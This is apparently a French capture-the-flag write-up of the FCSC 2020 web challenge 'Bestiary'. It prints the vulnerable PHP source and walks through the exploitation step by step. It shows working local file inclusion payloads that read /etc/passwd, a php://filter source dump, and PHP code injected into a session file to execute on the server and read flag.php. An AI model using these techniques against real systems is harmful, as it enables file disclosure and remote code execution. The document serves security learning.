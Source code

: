 ```yaml
---
title: FCSC 2020 - Web - Bestiary
excerpt: Write-up du challenge web Bestiary du France Cybersecurity Challenge 2020
tags: [CTF, FCSC, writeup, web]
categories: Write-ups
comments: true
---
```


<img src="/img/fcsc_logo.png" width="300" class="center-image">
Le France CyberSecurity Challenge est une compétition en ligne organisée par l’Agence National de la Sécurité des Systèmes d’Informations (ANSSI). Ce CTF a pour but de préselectionner 30 joueurs: 15 juniors (entre 15 et 20 ans) et 15 seniors (entre 21 et 25 ans).
<hr>
![Challenge](/img/fcsc_bestiary.PNG){: .center-image} 

Bestiary a été mon challenge préféré, l'exploitation de la LFI était très intéressante !  

C'est un site où l'on peut simplement effectuer des recherches sur des monstres.

![Home](/img/fcsc_home.PNG){: .center-image} 

On devine assez rapidement que la paramètre 'monster' de la requête GET est à injecter.  
On test un payload classique pour voir s'il est possible d'avoir une LFI : `http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=../../../../etc/passwd`

![LFI](/img/fcsc_lfi_etc.PNG){: .center-image}

On à donc une LFI :)  
On tente d'afficher le code source avec un filter PHP.
`http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php`

![Base](/img/fcsc_bestiary_base.PNG){: .center-image}

On décode tout ça en base64 et on obtient le code source la page `index.php` :
```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> 
    <input type="button" value="show description" onclick="show()">
    <div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

En analysant le code source, on remarque plusieurs choses intéressantes :
*	La fonction `strpos()` est utilisée pour vérifier que le payload ne contienne pas la chaîne de caractères "flag"
*	Le répertoire où sont stockées les sessions est spécifié "en dur" via la fonction `session_save_path()`, alors qu'habituellement, ces dernières sont stockées ...
*	Le flag est stocké dans le fichier `flag.php`

Pour accéder à une session, il faut rajouter le préfix `sess_` au numéro de session stockées dans notre navigateur.  
*Par exemple, j'avais la session c70091bbb2c30521812c43b37040255a, sur le serveur, la session est stockée dans le fichier /sessions/sess_c70091bbb2c30521812c43b37040255a*

![Session](/img/fcsc_bestiary_session.PNG){: .center-image}

On peut voir le contenu de ma session sur la capture d'écran ci-dessus.   
Comme en PHP, tout fichier inclut via la fonction `include()` est traité comme un fichier PHP, on va pouvoir injecter du code PHP dans le cookie PHPSESSID afin de le faire exécuter au serveur lorsque l'on va accéder à la session.  

Je vais utiliser le payload suivant pour lire le fichier contenant le flag : 
`<?php var_dump(file_get_contents(base64_decode('ZmxhZy5waHA='))); ?>`  
J'ai encodé le nom du fichier en base64 à cause de la fonction `strpos()` qui détecte si la chaîne "flag" est présente dans le paramètre GET 'monter'.   
J'injecte donc ce payload dans ma session en effectuant la requête suivante : `http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=%3C?php%20var_dump(file_get_contents(base64_decode(%27ZmxhZy5waHA=%27)));%20?%3E`.

À ce stage, il ne me reste plus qu'à inclure le fichier contenant les informations de ma session, afin que le code PHP soit exécuté.
`http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=sessions/sess_c70091bbb2c30521812c43b37040255a`

On affiche les sources et voilà !  

![FLAG](/img/fcsc_bestiary_flag.PNG){: .center-image}

Flag `FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}`